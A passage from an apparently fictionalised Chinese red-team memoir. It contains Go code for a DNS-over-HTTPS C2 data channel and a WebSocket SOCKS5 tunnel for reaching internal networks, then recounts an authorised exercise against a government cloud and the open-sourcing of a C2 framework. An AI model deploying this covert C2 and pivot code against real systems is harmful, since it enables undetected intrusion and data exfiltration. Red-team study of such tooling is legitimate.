		c2Domain:  c2Domain,
	}
}

// Send 通过DoH发送数据
// 原理：把数据编码成子域名，做DNS查询
func (t *DoHTransport) Send(data []byte) ([]byte, error) {
	// 1. 把数据Base32编码（DNS域名只能用字母数字和连字符）
	encoded := base32.StdEncoding.EncodeToString(data)
	// Base32有=，去掉
	encoded = strings.ReplaceAll(encoded, "=", "")
	
	// 2. 分块（DNS域名每段最长63字符）
	chunks := splitString(encoded, 60)
	
	// 3. 拼成子域名
	subdomain := strings.Join(chunks, ".")
	queryDomain := fmt.Sprintf("%s.%s", subdomain, t.c2Domain)
	
	// 4. 通过DoH查询
	// 用HTTPS POST方式（RFC 8484）
	req, _ := http.NewRequest("POST", t.dohServer, 
		strings.NewReader(buildDNSQuery(queryDomain)))
	req.Header.Set("Content-Type", "application/dns-message")
	req.Header.Set("Accept", "application/dns-message")
	
	resp, err := http.DefaultClient.Do(req)
	if err != nil {
		return nil, err
	}
	defer resp.Body.Close()
	
	// 5. 解析DNS响应，提取C2返回的数据
	body, _ := io.ReadAll(resp.Body)
	return parseDNSResponse(body), nil
}

// buildDNSQuery 构造DNS查询报文
func buildDNSQuery(domain string) string {
	// 构造一个DNS查询报文
	// 这里省略具体的报文构造细节
	// 实际是用 binary.BigEndian 构造DNS报文
	// ...
	return ""
}

// parseDNSResponse 解析DNS响应，提取数据
func parseDNSResponse(resp []byte) []byte {
	// DNS响应里，A记录的IP段，藏着C2返回的数据
	// 比如 1.2.3.4 → 数据是 1.2.3.4 的某种编码
	// ...
	return nil
}
```

```
📡 DoH C2通道的实战价值：

【场景1：严格出网限制】
- 目标机器只能上网，不能访问外部HTTP/HTTPS
- 但是DNS能解析
- 用DoH通道，Agent能正常回连

【场景2：主通道被检测】
- HTTP/HTTPS通道被蓝队发现并封禁
- 自动切换到DoH通道
- DoH看起来是访问Google/Cloudflare的DNS服务，不显眼

【场景3：内网横向】
- 内网机器不能直接出网
- 但是能访问内网的DNS服务器
- 通过内网DNS服务器，做DNS隧道
```

---

## 🔗 内网穿透工具开发

### 5.1 为什么需要自研内网穿透？

C2框架做得差不多了，但是还有一个痛点：内网穿透。

```
🤔 什么是内网穿透？为什么要内网穿透？

【场景】
红队打下一个边界机器（比如Web服务器），这台机器能访问外网，也能访问内网。
但是内网里的机器，不能直接访问外网。
红队想从外面连内网的机器，怎么办？

【解决方案：内网穿透】
边界机器上运行一个"内网穿透客户端"，主动连接外面的"内网穿透服务端"。
建立一条隧道。
红队通过这条隧道，从外面访问内网。

【常见工具】
- frp：国人写的，最流行
- nps：功能强大，有Web管理
- chisel：Go写的，基于HTTP/WebSocket
- earthworm：老牌，但是作者不维护了
- stowaway：新出的，国产

【为什么要自研？】
1. 已知工具的特征都被蓝队掌握了
   - frp的流量特征，蓝队的设备能识别
   - 用frp等于"自报家门"

2. 已知工具不支持国产化环境
   - 部分工具在麒麟OS上有兼容问题

3. 跟C2框架集成
   - 我们希望内网穿透是C2的一个功能
   - 不用单独部署

4. 定制化需求
   - 流量要伪装
   - 协议要可定制
   - 要能扛阻断
```

老吴让我把内网穿透作为C2的一个模块来开发。

### 5.2 内网穿透的架构设计

```
🏗️ 内网穿透的架构：

【三个角色】
1. Server（服务端）
   - 部署在外网（VPS）
   - 监听端口，等待Client连接
   - 接收用户的请求，转发给Client
   - 把Client的响应返回给用户

2. Client（客户端）
   - 部署在边界机器（内网）
   - 主动连接Server
   - 把内网的流量"隧道"出去

3. User（用户）
   - 红队成员
   - 通过Server访问内网

【几种穿透模式】
1. TCP端口转发
   - 用户访问Server的8080端口
   - 转发到内网机器的80端口

2. SOCKS5代理
   - 用户配置SOCKS5代理为Server
   - 通过代理访问内网任意IP:端口

3. HTTP代理
   - 类似SOCKS5，但是只支持HTTP

4. 反向连接
   - 内网机器主动连出来
   - 适用于内网不能被外部访问的场景
```

**图128-4 内网穿透工具架构**



### 5.3 内网穿透的实现

服务端代码：

```go
// internal/tunnel/server.go
package tunnel

import (
	"context"
	"io"
	"net"
	"sync"
	
	"github.com/gorilla/websocket"
)

type Server struct {
	listenAddr  string // 监听地址
	proxyAddr   string // 代理地址（SOCKS5）
	clients     map[string]*Client
	mu          sync.RWMutex
	upgrader    websocket.Upgrader
}

type Client struct {
	id       string
	conn     *websocket.Conn
	tunnels  map[string]*Tunnel // 活跃的隧道
	mu       sync.Mutex
}

type Tunnel struct {
	id       string
	srcConn  net.Conn // 用户侧的连接
	dstConn  net.Conn // Client侧的连接（通过WebSocket）
}

func NewServer(listenAddr, proxyAddr string) *Server {
	return &Server{
		listenAddr: listenAddr,
		proxyAddr:  proxyAddr,
		clients:    make(map[string]*Client),
		upgrader: websocket.Upgrader{
			CheckOrigin: func(r *http.Request) bool { return true },
		},
	}
}

// Start 启动服务端
func (s *Server) Start(ctx context.Context) error {
	// 1. 启动Client监听（WebSocket）
	go s.startClientListener(ctx)
	
	// 2. 启动SOCKS5代理
	go s.startSOCKS5Proxy(ctx)
	
	<-ctx.Done()
	return ctx.Err()
}

// startClientListener 监听Client连接
func (s *Server) startClientListener(ctx context.Context) {
	server := &http.Server{Addr: s.listenAddr}
	
	http.HandleFunc("/tunnel", func(w http.ResponseWriter, r *http.Request) {
		// 1. 升级为WebSocket
		conn, err := s.upgrader.Upgrade(w, r, nil)
		if err != nil {
			return
		}
		
		// 2. 注册Client
		clientID := generateID()
		client := &Client{
			id:      clientID,
			conn:    conn,
			tunnels: make(map[string]*Tunnel),
		}
		
		s.mu.Lock()
		s.clients[clientID] = client
		s.mu.Unlock()
		
		// 3. 处理Client的消息
		go s.handleClient(client)
	})
	
	server.ListenAndServe()
}

// startSOCKS5Proxy 启动SOCKS5代理
func (s *Server) startSOCKS5Proxy(ctx context.Context) {
	listener, _ := net.Listen("tcp", s.proxyAddr)
	
	for {
		conn, err := listener.Accept()
		if err != nil {
			return
		}
		go s.handleSOCKS5(conn)
	}
}

// handleSOCKS5 处理SOCKS5请求
func (s *Server) handleSOCKS5(userConn net.Conn) {
	// 1. SOCKS5握手
	targetAddr, err := socks5Handshake(userConn)
	if err != nil {
		userConn.Close()
		return
	}
	
	// 2. 选一个Client（这里简化，实际要按规则选）
	s.mu.RLock()
	var client *Client
	for _, c := range s.clients {
		client = c
		break
	}
	s.mu.RUnlock()
	
	if client == nil {
		userConn.Close()
		return
	}
	
	// 3. 通过Client建立到目标的连接
	tunnelID := generateID()
	msg := &Message{
		Type:    MsgConnect,
		TunnelID: tunnelID,
		Payload: []byte(targetAddr),
	}
	client.conn.WriteJSON(msg)
	
	// 4. 双向转发
	// userConn <-> client.conn（通过WebSocket）
	go func() {
		// user → client
		buf := make([]byte, 32*1024)
		for {
			n, err := userConn.Read(buf)
			if err != nil {
				break
			}
			msg := &Message{
				Type:     MsgData,
				TunnelID: tunnelID,
				Payload:  buf[:n],
			}
			client.conn.WriteJSON(msg)
		}
		userConn.Close()
	}()
	
	// client → user 的转发在 handleClient 里处理
}

// handleClient 处理Client的消息
func (s *Server) handleClient(client *Client) {
	for {
		var msg Message
		err := client.conn.ReadJSON(&msg)
		if err != nil {
			break
		}
		
		switch msg.Type {
		case MsgData:
			// Client返回的数据，转发给用户
			client.mu.Lock()
			tunnel, exists := client.tunnels[msg.TunnelID]
			client.mu.Unlock()
			
			if exists {
				tunnel.srcConn.Write(msg.Payload)
			}
			
		case MsgClose:
			// Client关闭了隧道
			client.mu.Lock()
			tunnel, exists := client.tunnels[msg.TunnelID]
			client.mu.Unlock()
			
			if exists {
				tunnel.srcConn.Close()
				client.mu.Lock()
				delete(client.tunnels, msg.TunnelID)
				client.mu.Unlock()
			}
		}
	}
}
```

客户端代码：

```go
// internal/tunnel/client.go
package tunnel

import (
	"net"
	"sync"
	
	"github.com/gorilla/websocket"
)

type Client struct {
	serverURL string // Server的WebSocket地址
	conn      *websocket.Conn
	tunnels   map[string]net.Conn
	mu        sync.Mutex
}

func NewClient(serverURL string) *Client {
	return &Client{
		serverURL: serverURL,
		tunnels:   make(map[string]net.Conn),
	}
}

// Start 启动Client
func (c *Client) Start() error {
	// 1. 连接Server
	conn, _, err := websocket.DefaultDialer.Dial(c.serverURL, nil)
	if err != nil {
		return err
	}
	c.conn = conn
	
	// 2. 处理Server的消息
	for {
		var msg Message
		err := conn.ReadJSON(&msg)
		if err != nil {
			return err
		}
		
		switch msg.Type {
		case MsgConnect:
			// Server要求建立到目标的连接
			go c.handleConnect(msg)
			
		case MsgData:
			// Server转发的数据，写到目标连接
			c.mu.Lock()
			tunnel, exists := c.tunnels[msg.TunnelID]
			c.mu.Unlock()
			
			if exists {
				tunnel.Write(msg.Payload)
			}
			
		case MsgClose:
			// 关闭隧道
			c.mu.Lock()
			tunnel, exists := c.tunnels[msg.TunnelID]
			c.mu.Unlock()
			
			if exists {
				tunnel.Close()
				c.mu.Lock()
				delete(c.tunnels, msg.TunnelID)
				c.mu.Unlock()
			}
		}
	}
}

// handleConnect 处理连接请求
func (c *Client) handleConnect(msg Message) {
	targetAddr := string(msg.Payload)
	
	// 1. 连接目标
	targetConn, err := net.Dial("tcp", targetAddr)
	if err != nil {
		// 连接失败，通知Server
		c.conn.WriteJSON(&Message{
			Type:     MsgClose,
			TunnelID: msg.TunnelID,
		})
		return
	}
	
	// 2. 保存连接
	c.mu.Lock()
	c.tunnels[msg.TunnelID] = targetConn
	c.mu.Unlock()
	
	// 3. 通知Server连接成功
	c.conn.WriteJSON(&Message{
		Type:     MsgConnectOK,
		TunnelID: msg.TunnelID,
	})
	
	// 4. 读取目标返回的数据，转发给Server
	buf := make([]byte, 32*1024)
	for {
		n, err := targetConn.Read(buf)
		if err != nil {
			break
		}
		c.conn.WriteJSON(&Message{
			Type:     MsgData,
			TunnelID: msg.TunnelID,
			Payload:  buf[:n],
		})
	}
	
	// 5. 通知Server关闭
	c.conn.WriteJSON(&Message{
		Type:     MsgClose,
		TunnelID: msg.TunnelID,
	})
	
	c.mu.Lock()
	delete(c.tunnels, msg.TunnelID)
	c.mu.Unlock()
}
```

```
🎯 自研内网穿透的特点：

【跟frp/nps相比】
1. 跟C2框架集成
   - 不用单独部署
   - 通过C2下发命令启动
   - 走C2的加密通道

2. 流量伪装
   - 用WebSocket，伪装成正常Web流量
   - 走C2的TLS加密
   - 不容易被识别

3. 国产化适配
   - Go编译，跨平台
   - 在麒麟OS、统信UOS上测试通过

4. 多协议支持
   - SOCKS5代理
   - TCP端口转发
   - 反向连接
```

> 💡 **内网穿透的协议设计**
> 我们的隧道协议用WebSocket作为底层传输。
> 为什么选WebSocket？
> 1. **长连接**：WebSocket是长连接，适合隧道
> 2. **穿透防火墙**：WebSocket基于HTTP升级，能穿透大多数防火墙
> 3. **加密**：可以走wss://（WebSocket over TLS）
> 4. **伪装**：看起来就是普通的Web流量
> 5. **双向通信**：Server和Client可以互相发消息
>
> frp用TCP，nps用TCP，chisel用HTTP/WebSocket。
> 我们选WebSocket，是综合考虑了穿透性、隐蔽性和易实现性。

---

## ⚔️ 护网复仇之战：用自研C2打穿靶场

### 6.1 又是国产化环境

C2框架和内网穿透工具都开发完，正好赶上公司的护网演练。

这次护网，是给一家**省级政务云**做红队攻击。

```
📊 护网背景：

【目标】
省级政务云，给全省政府部门提供云服务。
防护等级很高，过了等保三级。

【环境特点】
- 又是国产化环境！
- 服务器：麒麟OS、统信UOS
- 数据库：达梦、人大金仓
- 中间件：东方通、宝兰德
- 浏览器：奇安信浏览器
- 跟上次毒打我的那家，几乎一样的环境

【护网规则】
- 7天
- 红队 vs 蓝队
- 计分制
```

看到这个目标，我笑了。

```
😄 我的心情：

- 上次遇到国产化环境，我是被老吴救场的脚本小子
- 这次遇到国产化环境，我是造工具的人
- 这次，我要用自己造的C2，打穿这个靶场
- 算是"复仇"了
```

队长老周在战前会议上问：

```
👨‍💼 老周：
"这次护网，C2用什么？
 用CS还是用自研的？"

👨‍💼 老吴：
"用自研的。
 我们的C2已经经过了内部对抗测试，没问题。
 而且我们的C2专门适配了国产化环境。
 CS在麒麟OS上的Agent有些兼容问题，我们的没有。
 这次正好实战检验一下。"

👨‍💼 老周：
"行，那就用自研的。
 阿杰，你负责C2基础设施的搭建和保障。
 出了问题你顶。"

👨‍💻 我：
"放心，没问题！"
```

### 6.2 这次我是造工具的人

护网第一天，情报组先出成果。

```
📊 D-Day 09:00 情报组战报：

【资产情况】
- 主域名：xxgovcloud.gov.cn
- 子域名：234个
- 存活Web服务：67个
- 开放端口：400+

【环境确认】
- 国产化环境，麒麟OS + 达梦数据库 + 东方通中间件
- 跟我们预研的环境一致
- 自研工具全部适配

【重点关注】
- portal.xxgovcloud.gov.cn → 统一门户
- oa.xxgovcloud.gov.cn → OA系统
- api.xxgovcloud.gov.cn → API网关
- dev.xxgovcloud.gov.cn → 开发者平台
```

我打开我的C2客户端，开始部署基础设施：

```
🛠️ C2基础设施部署：

【1. 部署C2服务端】
- 在3台VPS上部署C2服务端
- 配置成集群（Redis共享状态）
- 配置3个域名前置（用3个不同的CDN）

【2. 申请域名和证书】
- 提前注册了3个看起来"合法"的域名
- 用Let's Encrypt申请了真实证书
- 证书有效，不是自签名

【3. 配置流量伪装】
- 伪装成图片网站的API
- 启用行为模拟
- 启用uTLS（伪装JA3指纹）

【4. 准备Agent】
- 编译了多个平台的Agent：
  - Windows amd64
  - Linux amd64
  - Linux arm64
  - 麒麟OS amd64（重点！）
  - 统信UOS amd64

【5. 准备插件】
- 端口扫描插件
- 信息收集插件
- 横向移动插件
- 国产化适配插件（达梦、麒麟OS、东方通的利用工具）
```

护网第一天上午，Web组就开始打点。

```
📊 Day 1 战况：

【上午】
- Web组用我的LiteScan扫端口（国产化适配，识别出东方通、达梦）
- 用nuclei扫漏洞（但是nuclei对国产软件没POC）
- 切换到自研的国产化扫描工具，扫出3个漏洞
  - 东方通TongWeb后台弱口令
  - 达梦数据库未授权访问
  - 一个上传漏洞

【下午】
- 通过东方通后台弱口令，拿到Web服务器权限
- 上传Agent（麒麟OS版本）
- Agent上线！
```

Agent上线的那一刻，我盯着C2客户端的屏幕，心里五味杂陈。

```
😊 那一刻的心情：

- 一年前，我是被老吴的工具救场的脚本小子
- 一年后，我用自己的C2，打穿了国产化环境
- 这种感觉，太爽了
- 这就是"造工具"的快感
```

### 6.3 打穿靶场

Agent上线之后，就是后渗透的环节。

```
📊 护网7天战况：

【Day 1】边界突破
- 通过东方通弱口令，拿到Web服务器（麒麟OS）
- Agent上线
- 收集本机信息
- 发现内网网段：10.0.0.0/8

【Day 2】内网横向
- 用C2的端口扫描插件，扫内网
- 发现内网有200+台机器
- 用C2的横向移动插件，尝试弱口令
- 拿下15台服务器（都是麒麟OS）
- 其中一台是数据库服务器，跑了达梦数据库

【Day 3】数据库攻坚
- 达梦数据库有DBA权限
- 用自研的达梦利用工具，执行系统命令
- 拿到数据库服务器的system权限
- 这台服务器能访问核心区！

【Day 4】核心区渗透
- 通过数据库服务器做跳板，进核心区
- 核心区有域控（基于国产化AD替代方案）
- 用自研的域渗透工具，分析域内权限关系
- 发现一条攻击路径，3步到域管
- 拿下域管权限！

【Day 5】扩大战果
- 用域管权限，控制整个域
- 拿下核心区的所有重要服务器
- 财务系统、人事系统、办公系统...全部拿下
- 导出了大量敏感数据

【Day 6】蓝队反击
- 蓝队发现有异常
- 但是！他们找不到我们的C2流量！
- 因为我们的流量伪装太好了
- 蓝队只能"疑似"，无法"确认"
- 我们的Agent一直在线，没被清理

【Day 7】收网
- 继续扩大战果
- 拿下了备份系统、安全设备管理平台
- 行动结束

【最终战绩】
- 拿下服务器：87台
- 拿下域控：是
- 拿下核心业务系统：8个
- 拿下敏感数据：几十TB
- C2被检测：否（蓝队只"疑似"，未"确认"）
- 估分：12000+分
- 排名：第一！
```

**图128-5 护网复仇之战时间线**

```mermaid
gantt
    title 护网7天复仇之战时间线
    dateFormat X
    axisFormat D%s

    section 边界突破
    部署C2基础设施          :a1, 0, 1
    东方通弱口令突破        :a2, 0, 1
    Agent上线              :milestone, m1, 1, 0

    section 内网横向
    端口扫描 内网信息收集   :b1, 1, 1
    弱口令横向 拿下15台     :b2, 2, 1
    达梦数据库攻坚          :b3, 2, 1

    section 核心区渗透
    通过数据库服务器进核心区 :c1, 3, 1
    域渗透分析              :c2, 3, 1
    拿下域管权限            :milestone, m2, 4, 0

    section 扩大战果
    控制整个域              :d1, 4, 1
    拿下核心业务系统        :d2, 4, 1
    导出敏感数据            :d3, 5, 1

    section 蓝队反击
    蓝队发现异常            :e1, 5, 1
    蓝队无法确认C2流量      :e2, 5, 2
    Agent持续在线           :e3, 5, 2

    section 收网
    最终盘点                :f1, 6, 1
    排名第一                :milestone, m3, 7, 0
```



### 6.4 复盘：自研C2的优势

护网结束后的复盘会上，老周总结了这次护网的得失。

```
👨‍💼 老周复盘：

"这次护网，我们拿了第一。
 最大的功臣，是阿杰的自研C2。

 跟用CS相比，自研C2有几个明显优势：

 1. 国产化适配
    - CS的Agent在麒麟OS上有兼容问题
    - 自研C2的Agent完美适配麒麟OS
    - 自研C2集成了达梦、东方通的利用工具
    - 这是CS做不到的

 2. 流量隐蔽
    - CS的流量特征，蓝队的设备都能识别
    - 自研C2的流量是新的，蓝队没有特征库
    - 自研C2的流量伪装，让蓝队只'疑似'无法'确认'
    - 7天里Agent一直没被清理

 3. 定制化
    - CS的功能是固定的，加功能要写插件（麻烦）
    - 自研C2可以随时加功能（直接改代码）
    - 比如这次我们临时加了一个'达梦数据库提权'功能
    - CS要加这个，得写BOF，麻烦得多

 4. 内网穿透集成
    - CS要内网穿透，得单独部署frp
    - 自研C2内置了内网穿透
    - 一键启动，不用单独部署

 5. 没有license问题
    - CS是商业软件，license很贵
    - 自研C2没有这个问题
    - 想部署多少节点就部署多少

 当然，自研C2也有劣势：
 1. 功能不如CS完善（CS有十几年的积累）
 2. 稳定性不如CS（CS经过了大量实战检验）
 3. 生态不如CS（CS有大量第三方插件）

 但是，对于国产化环境，自研C2是更好的选择。
 这次护网，证明了这一点。

 阿杰，干得漂亮！
 一年前你被国产化环境毒打，一年后你用自研工具打穿了国产化环境。
 这就是成长！"
```

听着老周的复盘，我心里百感交集。

```
😊 我的复盘感想：

- 一年前，我是被毒打的脚本小子
- 一年后，我是用自研工具打穿靶场的工具开发
- 这个转变，靠的是：
  1. 老吴的指导
  2. 团队的支持
  3. 自己的死磕
  4. 一年多不间断的学习和开发

- 但是，我也清楚：
  1. 我的C2还有很多不足
  2. 跟CS、sliver这些成熟框架比，还有差距
  3. 还需要持续打磨
  4. 还需要更多实战检验

- 这次护网，只是一个开始
- 我要把这个C2，做成行业知名的工具
- 让全行业的人都能用上
```

> 💡 **自研C2 vs 商业C2（CS），到底用哪个？**
> 这个问题没有标准答案，看场景：
>
> **用CS的场景：**
> - 团队不熟悉Go/开发能力弱
> - 目标环境是Windows/Linux主流环境
> - 需要丰富的后渗透功能
> - 有预算买license
>
> **用自研C2的场景：**
> - 团队有开发能力
> - 目标环境特殊（如国产化）
> - 需要深度定制
> - 需要流量隐蔽（CS特征太明显）
> - 没有license预算
>
> **结论：** 不是非此即彼，实战中可以两者结合用。
> 主力用CS，特殊场景用自研C2。

---

## 🌟 C2框架开源：从0到5000 Star

### 7.1 开源的决定

护网结束后，我跟老吴商量：

```
👨‍💻 我：吴哥，咱们的C2框架，要不要开源？

👨‍💼 老吴：你想开源？
       C2框架跟端口扫描器不一样，C2是"双刃剑"。
       开源出去，好人能用，坏人也能用。
       你要考虑法律风险。

👨‍💻 我：我知道。但是：
       1. C2框架开源，对整个行业是好事
          很多小团队买不起CS，自研能力又弱
          开源的C2能帮到他们
       2. 对我们公司也是好事
          能提升公司技术影响力
          能吸引人才
       3. 法律风险可以规避
          加免责声明
          不公开恶意功能（如自动提权、自动横向）
          只公开框架本身

👨‍💼 老吴：行，我支持你。
       但是要跟公司法务确认，做好合规。
       另外，开源之前，要把代码再打磨一遍。
       不能把"半成品"开源出去。
```

经过公司法务确认，我们决定把C2框架开源。

开源前，我又花了两个月打磨代码：

```
🛠️ 开源前的打磨：

【1. 代码清理】
- 删除公司内部相关的代码
- 删除敏感功能（如自动提权、自动横向）
- 保留框架核心功能
- 保留插件系统

【2. 文档完善】
- 写完整的README
- 写架构设计文档
- 写插件开发文档
- 写部署文档
- 录制演示视频

【3. 测试加固】
- 补充测试用例，覆盖率提升到85%
- 修复所有已知bug
- 性能优化

【4. 开源治理】
- 加LICENSE（Apache 2.0）
- 加CONTRIBUTING.md
- 加行为准则（CODE_OF_CONDUCT）
- 加issue模板、PR模板
- 配置CI/CD

【5. 法律合规】
- 加免责声明
- 法务审核
- 不公开恶意功能
```

### 7.2 发布与爆红

准备就绪，我们把C2框架命名为"**PhantomC2**"（幻影C2），开源到了GitHub。

```markdown
# PhantomC2 - 国产化环境友好的C2框架

## 介绍

PhantomC2是一个用Go语言编写的C2（Command & Control）框架，主打：
- **国产化适配**：完美支持麒麟OS、统信UOS、达梦数据库等国产软件
- **流量隐蔽**：域前置、流量伪装、行为模拟、DoH
- **插件系统**：支持Go原生插件、Lua脚本插件、BOF
- **多协议**：HTTP/HTTPS、DNS、TCP、ICMP、WebSocket
- **分布式**：服务端可横向扩展
- **跨平台**：Windows、Linux、macOS、麒麟OS、统信UOS

## 功能特性

- ✅ 多协议通信（HTTP/HTTPS/DNS/TCP/ICMP/WebSocket）
- ✅ 流量隐蔽（域前置、自定义协议、行为模拟、DoH、uTLS）
- ✅ 插件系统（Go/Lua/BOF）
- ✅ 内置内网穿透（SOCKS5/TCP端口转发）
- ✅ 分布式部署
- ✅ CLI + Web UI双界面
- ✅ 国产化适配（麒麟OS、统信UOS、达梦、东方通）
- ✅ 跨平台Agent
- ✅ 完整的测试用例（覆盖率85%+）

## 免责声明

本工具仅供安全研究和授权测试使用。
使用本工具进行未授权的攻击是违法行为。
使用者需遵守当地法律法规，作者不对使用者的行为负责。
```

```
📅 发布后的增长：

【第1天】
- 发布v1.0.0
- 在朋友圈、微博、安全社区宣传
- Star数：28个
- 有点小失落

【第7天】
- 在某个安全论坛发了介绍帖
- 引起了讨论
- Star数：156个
- 有人提了第一个issue

【第30天】
- 几个安全大V转发推荐
- 有安全媒体写了介绍文章
- Star数：680个
- issue和PR越来越多
- 我开始忙不过来

【第60天】
- 某省级护网中，有队伍用了PhantomC2
- 拿了不错的成绩
- 在圈子里传开了
- Star数：1520个

【第90天】
- Star数：2380个
- 有公司联系合作
- 有猎头找上门

【第120天】
- 受邀在某个安全会议上分享PhantomC2
- Star数：3150个

【第180天】
- Star数：5086个
- 突破5000 Star！
- 成为圈内知名的开源C2框架
```

**图128-6 PhantomC2开源后Star数增长曲线**



### 7.3 开源项目的运营

5000+ Star不是天上掉下来的，背后是大量的运营工作。

```
📚 开源项目运营的经验：

【1. 持续迭代】
- 每1-2周发一个版本
- 修复bug，加新功能
- 让用户看到项目是"活的"

【2. 维护社区】
- 及时回复issue（24小时内）
- 感谢每一个PR
- 在Discussions区跟用户互动
- 建了微信群，方便交流

【3. 写文档】
- README是门面，要写好
- 加了"快速开始"文档，让新手5分钟能用上
- 加了"常见问题"FAQ
- 录制了演示视频

【4. 案例收集】
- 收集用户的使用案例
- 写成文章发布
- 让更多人看到"PhantomC2在实际场景中的应用"

【5. 跟其他项目联动】
- 跟LiteScan联动（端口扫描结果直接导入PhantomC2）
- 跟其他开源安全工具兼容
- 形成"生态"

【6. 安全合规】
- 加了完善的免责声明
- 不公开恶意功能
- 跟法务保持沟通
- 配合监管要求

【7. 商业化探索】
- 开源核心，商业版加高级功能
- 提供付费技术支持
- 提供定制开发服务
```

```
🎁 开源PhantomC2的收获：

【技术层面】
- 收到了大量用户反馈，帮助改进了代码
- 收到了很多PR，带来了新功能
- 跟很多大佬有了交流
- 技术水平持续提升

【职业层面】
- 在安全圈建立了知名度
- "阿杰"= "PhantomC2作者"
- 受邀演讲、写文章、做培训
- 薪资翻了好几倍

【人脉层面】
- 认识了全国各地的安全从业者
- 跟很多公司的安全团队建立了联系
- 结识了一帮志同道合的朋友

【商业层面】
- 有公司主动找合作
- 有投资机构找上门
- 为后面创业打下了基础
```

> 💡 **开源安全项目的"红线"**
> 开源安全工具，要注意几条"红线"：
> 1. **加免责声明**：明确"仅供授权测试使用"
> 2. **不公开恶意功能**：自动攻击、自动横向这类功能不公开
> 3. **配合监管**：如果监管要求下架，要配合
> 4. **不教攻击**：文档里只讲"怎么用工具"，不讲"怎么攻击"
> 5. **关注法律动态**：关注相关法律法规的变化
>
> 安全工具开源是有法律风险的，但是只要守住红线，风险是可控的。

---

## 🎤 受邀演讲：从台下到台上

### 8.1 KCon演讲

PhantomC2突破5000 Star之后，我收到了一封邮件。

```
📧 邮件内容：

主题：KCon 2025 演讲邀请

阿杰您好：

我们是KCon大会的组委会。
关注到您开源的PhantomC2项目，在安全社区反响很好。
我们邀请您在今年的KCon大会上，做一个关于PhantomC2的演讲。

KCon是国内顶级的安全会议，每年有数千人参加。
这是一个展示您的工作、跟同行交流的好机会。

如果您有意向，请回复邮件，我们沟通具体细节。

KCon组委会
```

看到这封邮件，我傻了。

```
😱 我的心情：

- KCon！国内顶级安全会议！
- 我以前都是坐在台下听大佬讲
- 现在让我上台讲？！
- 我能行吗？
```

我找老吴商量。

```
👨‍💻 我：吴哥，KCon邀请我演讲，我去吗？

👨‍💼 老吴：去啊！为什么不去？
        这是好事。
        KCon的舞台，是很多安全从业者梦寐以求的。
        你能站上去，说明你的工作得到了认可。
        
        而且，演讲对你的成长很有帮助：
        1. 锻炼表达能力
        2. 提升个人影响力
        3. 跟行业大佬交流
        4. 给公司、给项目带来曝光

👨‍💻 我：但是我从来没在大场合讲过，怕讲不好。

👨‍💼 老吴：谁都是从第一次开始的。
        你好好准备，我帮你review PPT。
        讲的内容你比谁都熟，没问题的。
```

于是我答应了。

接下来的一个月，我都在准备演讲。

```
📅 演讲准备：

【第1周：选题和大纲】
- 主题：从脚本小子到工具开发——PhantomC2的设计与实现
- 大纲：
  1. 我的故事：从脚本小子到工具开发
  2. 为什么要自研C2
  3. PhantomC2的架构设计
  4. 流量隐蔽的工程实践
  5. 国产化环境的适配
  6. 开源项目的运营经验
  7. Q&A

【第2周：写PPT】
- PPT不要堆文字，多用图
- 每页一个核心观点
- 控制在40页以内
- 留出Q&A时间

【第3周：练习】
- 自己对着镜子讲
- 录视频回看
- 找同事试讲，收集反馈
- 控制时间在40分钟

【第4周：最终打磨】
- 老吴帮我review PPT
- 修改措辞，避免敏感内容
- 准备Q&A可能的问题
- 准备demo（万一网络不好，有备份视频）
```

KCon演讲那天，我紧张得要死。

```
🎤 演讲当天：

【演讲前】
- 后台等着，手心都是汗
- 心跳加速
- 喝了好几口水

【上台】
- 走上讲台，看到台下几百人
- 强装镇定，深呼吸
- 麦克风打开，开始讲

【前5分钟】
- 声音有点抖
- 但是讲着讲着，进入状态了
- 因为内容是我熟悉的，越讲越顺

【中间】
- 讲到流量隐蔽的细节，台下有人点头
- 讲到护网实战，台下有人笑
- 互动还不错

【最后】
- 讲完，台下鼓掌
- Q&A环节，问了几个好问题
- 我都答上来了

【演讲后】
- 好多人来加微信
- 有公司邀请面试
- 有媒体要采访
- 成就感满满
```

```
📚 KCon演讲的收获：

1. 个人影响力大幅提升
   - "阿杰"= "PhantomC2作者"= "KCon演讲者"
   - 在安全圈彻底打响了知名度

2. 跟行业大佬建立了联系
   - 认识了好几个之前只在新闻上见过的大佬
   - 跟他们交流，学到了很多

3. 给PhantomC2带来了曝光
   - 演讲后，Star数涨了几百
   - 有公司主动联系合作

4. 锻炼了表达能力
   - 之前只会写代码，不会表达
   - 演讲之后，表达能力提升很多
   - 对后续的创业非常有帮助
```

### 8.2 看雪SDC

KCon之后，我又受邀在**看雪SDC**（安全开发者峰会）做了演讲。

```
🎤 看雪SDC演讲：

【主题】
国产化环境下的安全工具开发实践

【内容】
- 国产化环境的特点和挑战
- 主流工具在国产化环境下的失效分析
- 自研工具的设计思路
- PhantomC2的国产化适配实践
- 给安全工具开发者的建议

【收获】
- 看雪的受众更偏底层、开发
- 跟很多工具开发者深入交流
- 认识了一帮做安全工具的朋友
- 后面好几个人加入了PhantomC2的贡献者队伍
```

### 8.3 演讲的感悟

```
💡 关于演讲，我的几点感悟：

1. 演讲是"输出"，输出倒逼"输入"
   - 要讲清楚一个东西，你自己得先搞明白
   - 准备演讲的过程，是你深入学习的过程
   - 讲完之后，你对这个主题的理解会更深

2. 演讲是"营销"，营销自己、营销项目
   - 你的工作再好，别人不知道也没用
   - 演讲是让更多人知道你的工作的途径
   - 对个人品牌、项目推广都很有帮助

3. 演讲是"社交"，社交带来机会
   - 演讲会认识很多人
   - 这些人脉，会带来很多机会
   - 合作、投资、招聘...都从这里来

4. 演讲是"成长"，成长于舒适区之外
   - 第一次上台，肯定会紧张
   - 但是挺过去之后，你会变得更自信
   - 这种自信，会渗透到工作的方方面面

5. 不要怕"讲不好"
   - 你比台下90%的人都懂这个主题
   - 台下的人是来听你分享的，不是来挑刺的
   - 放松，真诚地分享，就够了
```

> 💡 **如何准备一个技术演讲？**
> 1. **选好主题**：讲你最有心得的内容，不要讲你不熟的
> 2. **写好大纲**：先列出要讲的几个点，理清逻辑
> 3. **PPT用图说话**：少堆文字，多用图、流程图、代码
> 4. **反复练习**：自己讲、对着镜子讲、找人试讲
> 5. **控制时间**：超时是大忌，宁可少讲也不要超时
> 6. **准备Q&A**：提前想好可能的问题和答案
> 7. **准备备份**：demo可能会失败，准备备份视频
> 8. **放松心情**：紧张是正常的，深呼吸，会过去的

---

## 🏢 创办安全公司

### 9.1 创业的决定

KCon演讲之后，有很多投资机构联系我。

```
📧 一封典型的投资人邮件：

阿杰您好：

我是XX资本的投资经理。
在KCon上听了您的演讲，对PhantomC2项目非常感兴趣。
